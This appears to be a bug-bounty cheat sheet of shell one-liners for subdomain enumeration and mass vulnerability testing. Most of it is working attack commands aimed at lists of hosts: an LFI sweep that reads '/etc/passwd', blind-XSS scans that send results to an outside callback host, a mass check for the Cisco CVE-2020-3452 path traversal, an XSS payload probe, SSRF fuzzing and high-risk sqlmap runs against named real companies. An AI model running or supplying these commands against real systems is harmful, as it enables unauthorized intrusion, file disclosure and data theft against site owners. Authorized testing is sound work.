 # Common 

## domains
```bash 
cat wildcards.txt | assetfinder -subs-only | anew domains
```

```bash 
amass enum -df wildcards.txt | anew domains
```

```bash 
subfinder -silent -dL wildcards.txt| anew domains
```

```bash 
for i in $(cat wildcards.txt);do bash ~/scripts/Sub-Drill.sh $i | anew domains;done 
```

## Filter domain by level 

```bash
cat domains | dsieve -f 2
```

## one liners and tools

```bash 
sort -u domains | httprobe > uniq.txt
```

```bash
crlfuzz -l uniq.txt -s
```

```bash
gau uniq.txt | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

```bash 
cat uniq.txt |waybackurls | gf xss | sed 's/=.*/=/' | sort -u | tee FILE.txt && cat FILE.txt | dalfox -b l3gend.xss.ht pipe > OUT.txt
```

```bash
python3 ~/tools/Corsy/corsy.py -i uniq.txt 
```

```bash 
python3 ~/tools/XSStrike/xsstrike.py -u "https://www.glassdoor.com/rss/interviews.rss?id=lol" 
```

```bash
python3 ~/tools/smuggler/smuggler.py -u "https://google.com" -m GET -q
```

```bash
python3 ~/tools/mass-bounty/CRLF-Injection-Scanner/crlf_scan.py -i uniq.txt
```


* CVE-2020-3452
```bash
┌──(root㉿0xlegendkiller)-[~/cves/CVE-2020-3452]
└─# pwd
/root/cves/CVE-2020-3452
                                                                                              
┌──(root㉿0xlegendkiller)-[~/cves/CVE-2020-3452]
└─# python3 CVE-2020-3452.py -i ~/private_hackerone/playtika/domains
```

```bash 
cat uniq.txt | while read h do; do curl -sk "$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x"|grep -qs "onmouse" && echo "$h: VULNERABLE"; done
```

```bash
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < HOSTS.txt
```

```bash
subzy -targets domains -hide_fails
```

```bash
jaeles scan -s /root/.jaeles/base-signatures/cves/* -U domains.txt
```

## Heavy 
```bash
eyewitness --web -f uniq.txt -d /path_to_save_screenshots ##### optional , takes time, better grep for juicy domains and move forward
```

```bash
for I in $(ls); do 
        echo "$I" >> index.html;
        echo "<img src=$I><br>" >> index.html;
done
```

## SSRF Test (Wayback + Burp Pro)

```bash
cat wayback.txt | gf ssrf | sort -u >> testblindssrf.txt
```

```bash
cat testblindssrf.txt | qsreplace "burp_url" >> ssrfuzz.txt

ffuf -c -w ssrfuzz.txt -u FUZZ -t 200
```

## dalfox

```bash 
python3 ~/tools/ParamSpider/paramspider.py --domain google.com -o param.txt
```

```bash
dalfox -b l3gend.xss.ht file param.txt
```

## SQL Injection Mass Testing

```bash
subfinder -d tesla.com -silent -all | httpx -silent -threads 100 | katana -d 4 -jc -ef css,png,svg,ico,woff,gif | tee -a urls
```

```bash
cat urls | gf sqli | tee -a sqli
```

```bash
while read line;do sqlmap -u $line --parse-errors --current-db --invalid-logical --invalid-bignum --invalid-string --risk 3;done < sqli
```

## Finding deadlinks
```bash
for i in $(cat uniq.txt);do deadlinks $i|anew dead_Links;done
```

```bash
deadfinder file uniq.txt -o deadfinder.json
```

> https://www.deadlinkchecker.com/website-dead-link-checker.asp

> https://ahrefs.com/broken-link-checker

> https://brokenlinkcheck.com/broken-links.php


* Find valid links from wayback, cralwers, hawked etc 
```bash
cat wayback.txt| hakcheckurl | grep "200 http" | anew wayback200
```

